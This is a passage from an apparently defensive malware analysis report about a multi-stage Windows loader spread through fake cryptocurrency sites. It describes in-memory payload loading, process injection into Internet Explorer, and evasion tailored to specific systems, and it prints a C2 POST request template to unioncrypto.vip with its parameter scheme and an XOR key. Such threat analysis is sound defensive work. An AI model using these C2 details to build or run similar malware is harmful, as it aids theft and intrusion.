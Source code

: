 


If the response code from the C2 server is 200, the malware decrypts the payload and loads it in memory. Finally, the malware sends the act=done value and return code. The next stage payload (e1953fa319cc11c2f003ad0542bca822), downloaded from this loader, is similar to the .NET downloader in the WFCWallet case. This malware is responsible for decrypting the Adobe.icx file in the same folder. It injects the next payload into the Internet Explorer process, and the tainted iexplore.exe process carries out the attacker’s commands. The final payload (dd03c6eb62c9bf9adaf831f1d7adcbab) is implanted manually as in the WFCWallet case. This final payload was designed to run only on certain systems. It seems that the malware authors produced and delivered malware that only works on specific systems based on previously collected information. The malware checks the infected system’s information and compares it to a given value. It seems the actor wants to execute the final payload very carefully, and wants to evade detection by behavior-based detection solutions.

This Windows malware loads the encrypted msctfp.dat file in a system folder, and loads each configuration value. Then it executes an additional command based on the contents of this file. When the malware communicates with the C2 server, it uses a POST request with several predefined headers.





POST /[C2 script URL] HTTP/1.1
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive or Connection: close
User-Agent: [User-agent of current system]
Host: unioncrypto.vip




1234567

POST /[C2 script URL] HTTP/1.1Accept-Encoding: gzip, deflate, brAccept-Language: en-US,en;q=0.9Content-Type: application/x-www-form-urlencodedConnection: keep-alive or Connection: closeUser-Agent: [User-agent of current system]Host: unioncrypto.vip




For the initial communication, the malware first sends parameters:

cgu: 64bits hex value from configuration
aip: MD5 hash value from configuration
sv: hardcoded value(1)

If the response code from the C2 server is 200, the malware sends the next POST request with encrypted data and a random value. The malware operator probably used the random value to identify each victim and verify the POST request.

imp: Random generated value
dsh: XORed value of imp
hb_tp: XORed value(key: 0x67BF32) of imp
hb_dl: Encrypted data to send to C2 server
ct: hardcoded value(1)

Finally, the malware downloads the next stage payload, decrypting it and possibly executing it with the Print parameter. We speculate that the DLL type payload will be downloaded and call its Print export function for further infection. We can’t get hold of the final payload that’s executed in memory, but we believe its backdoor-type malware is ultimately used to control the infected victim.
Infrastructures
We found several fake websites that were still online when we were investigating their infrastructure. They created fake cryptocurrency-themed websites, but they were far from perfect and most of the links didn’t work.
